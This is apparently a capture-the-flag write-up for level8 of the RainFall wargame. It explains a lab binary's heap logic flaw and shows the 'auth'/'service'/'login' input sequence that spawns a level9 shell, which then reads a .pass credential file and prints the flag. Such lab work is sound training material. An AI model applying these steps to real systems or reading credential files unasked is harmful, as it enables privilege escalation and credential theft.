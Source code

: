# level8

```sh
➜  ~ ssh level8@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level8@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
level8@RainFall:~$
```

# Sengoku ---> Best Marine (after Garp The Hero)

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
Rob Lucci
(nil), (nil)
Hattori
(nil), (nil)
^C
level8@RainFall:~$ ./level8 'Garp solo Blackbeard Crew'
(nil), (nil)
^C
level8@RainFall:~$
```

__This program is not like the others...__

![binary 8](Ressources/binary_8-hex-rays.png)

- 2 global variables : `char *auth` and `char *service` ([code lines 4 and 5](https://github.com/Nimpoo/rainfall/blob/main/level8/source))
- a variable `s` that will store our input with a buffer of 5 bytes
- The main was an infinite loop that read the input
- It prints the address of these 2 global variables
- `break` if `fgets` returns `NULL`, and attribute our input to the variable `s`
- If the input starts with `"auth "`, it allocates memory for `auth` and copies the input (excluding `"auth "`) into it
- If the input starts with `"reset"`, it frees the memory allocated for `auth`
- If the input starts with `"service"`, it allocates memory for `service` and copies the input (excluding `"service"`) into it
- If the input starts with `"login"`, it checks if `auth` is not `NULL` and if the 8th byte of `auth` is not `0`
- If both conditions are met, a `shell` is spawned
- Otherwise, it prints `"Password:\n"`
- The program continues to loop, reading and processing input until it is terminated

# Vulnerability: <u>Program Logic (simply)</u>

- First, we will pass `"auth "` to allocate memory for `auth` for complete the condition at [line 19](https://github.com/Nimpoo/rainfall/blob/main/level8/source). **AND DON'T FORGET THE `SPACE` AT THE END OF `"auth "`**
- Second, we will pass `"service"` to allocate memory for `service` just after the `auth` allocation in the heap. For each allocation in the heap, it it will be placed just after the last one.

---> Now, we have something for `auth[0]` to `auth[4]`

- Third, we will pass `"service"` again for the same reason as the second step.

---> We have something for `auth[0]` to `auth[8]` minimum

- Finally, we will pass `"login"` to spawn a shell if `auth[8]` is not `0`, and this is our case.

Let's do it !

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
auth  # Don't forget the SPACE character at the end
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
$ 
```

# And that's it, we have a shell !

Let's get the flag !

```sh
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$
0x804a008, 0x804a028
level8@RainFall:~$
```

And go to the next level !

```sh
level8@RainFall:~$ su level9
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
level9@RainFall:~$
```

# level8 complet !
![yeah](../assets/yeah.gif)

